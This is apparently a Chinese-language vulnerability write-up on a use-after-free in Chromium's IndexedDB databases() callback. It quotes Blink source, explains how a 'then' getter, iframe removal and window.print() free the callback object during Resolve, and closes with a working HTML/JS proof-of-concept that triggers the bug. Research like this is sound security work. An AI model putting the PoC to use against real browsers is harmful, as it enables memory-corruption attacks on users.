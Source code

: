 ## 成因分析

```
  void SuccessNamesAndVersionsList(
      Vector<mojom::blink::IDBNameAndVersionPtr> names_and_versions) override {
    if (!promise_resolver_)
      return;

    HeapVector<Member<IDBDatabaseInfo>> name_and_version_list;
    name_and_version_list.ReserveInitialCapacity(name_and_version_list.size());
    for (const mojom::blink::IDBNameAndVersionPtr& name_version :
         names_and_versions) {
      const IDBNameAndVersion idb_name_and_version(name_version->name,
                                                   name_version->version);
      IDBDatabaseInfo* idb_info = IDBDatabaseInfo::Create();
      idb_info->setName(name_version->name);
      idb_info->setVersion(name_version->version);
      name_and_version_list.push_back(idb_info);
    }

    probe::AsyncTask async_task(
        ExecutionContext::From(promise_resolver_->GetScriptState()),
        &async_task_id_, "success");
    promise_resolver_->Resolve(name_and_version_list);
    promise_resolver_.Clear();
  }
```
关于Resolve，这里就放kp师傅的笔记了，学到很多：https://github.com/eternalsakura/sakura_browser_learn/blob/main/type%20confusion/unfinished%20-%20TypeConfusionInTriggerPromiseReactions.md#2-%E5%B0%9D%E8%AF%95%E8%A7%A6%E5%8F%91%E4%B8%A4%E6%AC%A1fulfill

如果设置了其then属性，那么当控制流执行至此处时，就会调用用户所设计的getter。也就是说，在Resolve执行到一半时，可以执行用户所定义的外部JS代码。

```
mojo::PendingAssociatedRemote<mojom::blink::IDBCallbacks>
WebIDBFactoryImpl::GetCallbacksProxy(
    std::unique_ptr<WebIDBCallbacks> callbacks_impl) {
  mojo::PendingAssociatedRemote<mojom::blink::IDBCallbacks> pending_callbacks;
  mojo::MakeSelfOwnedAssociatedReceiver(
      std::move(callbacks_impl),
      pending_callbacks.InitWithNewEndpointAndPassReceiver(), task_runner_);
  return pending_callbacks;
}
```
可以看到WebIDBCallbacks创建时使用的是MakeSelfOwnedReceiver，这使得它是一个StrongBinding，这意味着它掌控它自己，只有当interface关闭了或者出现通信错误了才会调用析构函数。攻击者可以通过删除与执行上下文关联的iframe元素(用于进行indexedDB调用)来强制浏览器进程中的接收方断开连接。在那之后，代码需要进入一个嵌套的事件循环，例如，通过' window.print() '，所以远程对象能够处理断开事件，而' SuccessNamesAndVersionsList '函数仍然在调用堆栈上。

之后Resolve执行完毕，在调用clear时，Impl已经被删除，导致uaf

poc：
```
<body>
<script>
if (window == top) {
  frame = document.body.appendChild(document.createElement('iframe'));
  frame.src = location.href.replace('localhost', '127.0.0.1');

  setTimeout(() => frame.remove(), 3000);
} else {
  frame = document.body.appendChild(document.createElement('iframe'));
  wnd = frame.contentWindow;

  wnd.indexedDB.databases();

  array_proto = wnd.Array.prototype;
  array_proto.__defineGetter__('then', function() {
    delete array_proto.then;

    frame.remove();

    print();
  });
}
</script>
</body>
```
